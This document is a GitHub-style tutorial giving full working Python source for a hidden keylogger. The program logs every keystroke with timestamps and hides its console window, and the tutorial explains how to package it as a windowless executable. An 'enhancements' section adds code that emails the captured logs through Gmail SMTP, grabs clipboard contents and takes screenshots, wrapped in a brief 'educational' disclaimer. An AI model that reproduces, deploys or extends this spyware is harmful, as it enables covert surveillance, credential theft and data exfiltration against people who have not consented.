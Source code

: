 
# **Keylogger with Timestamp & Hidden Execution**
### **Author:** Zeus  
### **Description:**  
This keylogger captures keystrokes, logs them with timestamps, and runs as a hidden background process. The logs are saved in a text file (`keylog.txt`).  

---

## **1️⃣ Features**
✅ Logs all keystrokes (letters, numbers, special keys)  
✅ Adds timestamps to each keystroke  
✅ Runs in the background (hidden process)  
✅ Creates a log file (`keylog.txt`)  
✅ Works silently without a visible console  

---

## **2️⃣ Installation**
### **Install Dependencies**  
Ensure Python is installed (`python --version`). Then, install required modules:  
```sh
pip install pynput
```
To run it as an executable, install `pyinstaller`:  
```sh
pip install pyinstaller
```

---

## **3️⃣ How It Works**
- **Listens** for keyboard events using `pynput.keyboard`.  
- **Records keystrokes** and stores them in `keylog.txt`.  
- **Adds timestamps** using Python's `logging` module.  
- **Hides execution** (on Windows) using `ctypes.windll.kernel32.FreeConsole()`.  

---

## **4️⃣ Keylogger Code**
```python
import logging
import os
import sys
import time
from pynput import keyboard

# Set up logging
log_file = "keylog.txt"
logging.basicConfig(filename=log_file, level=logging.INFO, format="%(asctime)s - %(message)s", datefmt="%Y-%m-%d %H:%M:%S")

def on_press(key):
    try:
        if hasattr(key, 'char') and key.char:
            logging.info(f"{key.char}")
        else:
            logging.info(f" [{key}] ")  # Special keys like Shift, Enter, etc.
    except Exception as e:
        logging.error(f"Error: {e}")

# Hide console window (Windows only)
def hide_console():
    if sys.platform == "win32":
        import ctypes
        ctypes.windll.kernel32.FreeConsole()

# Start keylogger
hide_console()
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

---

## **5️⃣ Running the Keylogger**
### **Run the Python Script (Testing)**
```sh
python keylogger.py
```
- The script starts logging keystrokes.
- Press **Ctrl + C** in the terminal to stop.

### **Convert to a Hidden Executable**
To make it run in the background, convert it into an EXE:  
```sh
pyinstaller --onefile --noconsole keylogger.py
```
🔹 `--onefile`: Packages everything into a single EXE.  
🔹 `--noconsole`: Hides the terminal window.

After running this, the `dist/keylogger.exe` file is created.

---

## **6️⃣ How to Stop the Keylogger**
### **1. Stop via Task Manager (Windows)**
- Open **Task Manager** (`Ctrl + Shift + Esc`).
- Go to the **Details** tab.
- Find `keylogger.exe`, right-click, and **End Task**.

### **2. Stop via Command Line**
#### **PowerShell**
```powershell
Stop-Process -Name "keylogger" -Force
```
#### **Command Prompt**
```sh
taskkill /F /IM keylogger.exe
```

### **3. Delete the Executable (Permanent Removal)**
1. Stop the process (`taskkill` or **Task Manager**).
2. Delete the `keylogger.exe` file.
3. Check **Startup Programs** (if you added it there).

---

## **7️⃣ Enhancements**
### **📌 1. Send Logs via Email**
Automatically send logs via email every X minutes.
```python
import smtplib
from email.message import EmailMessage

def send_email():
    msg = EmailMessage()
    msg['Subject'] = "Keylog Report"
    msg['From'] = "your_email@gmail.com"
    msg['To'] = "your_email@gmail.com"
    
    with open("keylog.txt", "r") as file:
        msg.set_content(file.read())

    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as server:
        server.login("your_email@gmail.com", "your_password")
        server.send_message(msg)

send_email()
```
🚨 **Note:** Enable "Less Secure Apps" in Gmail or use an **app password**.

### **📌 2. Capture Clipboard Data**
Use `pyperclip` to log copied text:
```python
import pyperclip
clipboard_data = pyperclip.paste()
logging.info(f"Clipboard: {clipboard_data}")
```
Install `pyperclip`:  
```sh
pip install pyperclip
```

### **📌 3. Take Screenshots at Intervals**
Use `Pillow` to capture screenshots:
```python
from PIL import ImageGrab

def capture_screenshot():
    screenshot = ImageGrab.grab()
    screenshot.save("screenshot.png")

capture_screenshot()
```
Install `Pillow`:  
```sh
pip install pillow
```

---

## **8️⃣ Legal Disclaimer**
🔴 **This keylogger is for educational and ethical hacking purposes ONLY.**  
🔴 Using this on someone else's computer **without consent** is illegal.  
🔴 **Always get permission before deploying security tools.**  

---

## **9️⃣ Conclusion**
This keylogger demonstrates how to capture keystrokes, hide execution, and log timestamps. Further improvements can include **network transmission, clipboard logging, and screenshot capturing.**  

